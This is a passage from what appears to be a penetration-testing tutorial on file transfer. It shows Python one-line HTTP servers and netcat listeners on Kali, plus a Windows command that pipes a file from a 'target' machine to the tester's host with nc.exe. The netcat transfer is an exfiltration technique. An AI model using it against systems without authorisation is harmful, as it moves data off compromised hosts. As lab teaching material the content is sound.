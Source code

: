 <figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiYvOOQLroJSIp_FgLy3uqgkQrInCQen8HhqInkolTxekU9LJCcahHk2KrYu2W0FUbsv47E9JI9rkFiJFzkCdmjzO1iKmTwaqKe-FtpAnaJrw2ZGkJwFNAFsuduyFeauo3aSZdqEQXoaJ0b0fgOj7grP5gbjfTsayFZNmqK_5dAOtWVCxIfSta8Z0VLztFw/s16000/60.png" alt=""><figcaption></figcaption></figure>

### To setup a server using **python2**, we can use the following command:

```python
python2 -m SimpleHTTPServer 80
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg2gB0EhRBZRyJOng926oniYXXgZL1M2yHZJxrEcsSGx5UiPryr2-XAH7SzuVCmccq87hp907Gt6BW0b1Zu2onHl_Ty56QRpVBWjjLfUiUmYxkbJJDV1pFL_HZNk382_iXpaVhVgN2Zaq_zy9sKifwWGqFVgKb6c_b-Vl9I2R4b5J1bEMx6rvzB9-hyR4O-/s16000/61.png" alt=""><figcaption></figcaption></figure>

### To setup a server using **python3**, we can use the following command:

```python
python3 -m http.server 8000
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh4y_VnJALVGhKZF5ak3RAxEoUFGt6cLlpX0R6ttoBy4_oZMaKtfOxaJp-1w9BWs1E6WG-HlTSWc5LnnjHV83_WVxsjkZreUDTdCuH2U56G0DhNiNGk2wqDyn438HoyktAlRb27zQTx69S48BCVqfRxqE4qnZlf2ExPpoLv9WscpnTwWzjANyCnoG7cteU1/s16000/62.png" alt=""><figcaption></figcaption></figure>

### File transfer using Netcat

Netcat, commonly known as **nc**, is a multifunctional networking tool designed for reading from and writing to network connections over TCP or UDP. Netcat can facilitate file transfers by establishing a simple client-server setup.

To transfer file in the kali machine from an Ubuntu machine we can use the following command inside kali:

```bash
nc -lvp 5555 > file.txt
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhrEYjOpTYbrtwgv7KVe5eMJ4Qfk8ICdPJzQUlltKO2lkzgG2nAp4N1FZaioOdSCH3vkogEai1mKOhGqeAKN9D65RWIwLxRF27OLTZ2ZpFaE0fv3Vp3Jmh7dVCwE1_eZor0hrushOEBhxE5yYY1_8SDEuwTt_DYVGnSiUA3u6nScy3tK2N8p3DCeP4U8kPg/s16000/71.png" alt=""><figcaption></figcaption></figure>

Now wSimilarly, we can also receive files from a windows machine inside our kali linux. However, it should be noted that we the target windows machine should have the nc.exe binary to make this method work.

Following is the command we need to run on the windows machine:

```powershell
nc.exe 192.168.31.141 5555 < data.txt
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgIjzVyTrgfr4esOxQDfaVhP7QtyuCcWj5tYPG3Bzj646H8As3qIf8g1AtjvSUiRE07UvoqM9ojR5OaojlFI_0q5rXncAIuegubNwzzLICrpZI__EMQC973mahtaL7V0PUJ_JUhVdXCP7j9rSWIslfBnnoAjS40GRc2dVxEkEIdngrx3o8ag2rnfG313o8e/s16000/73.png" alt=""><figcaption></figcaption></figure>

To receive the file in the kali machine, we will run the following command:

```bash
nc -lvp 5555 > data.txt
cat data.txt
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg6LU-K471evwFOeojlIiC0uJE84Wz0_3Z1oJcKP8h59pDfqQ2CEmpoj79KEs9G4Vxf-UhR4OR3SumX-nPUwbaBARiN6bLC520x8IOMnOuHFAbLe52HQTI0jFIkost4qII280ajayN66Dse9KTpjUTy_LzzhnYnvsMzxzFUuDokAG5O3bYQRegrQ2C_Uskw/s16000/74.png" alt=""><figcaption></figcaption></figure>
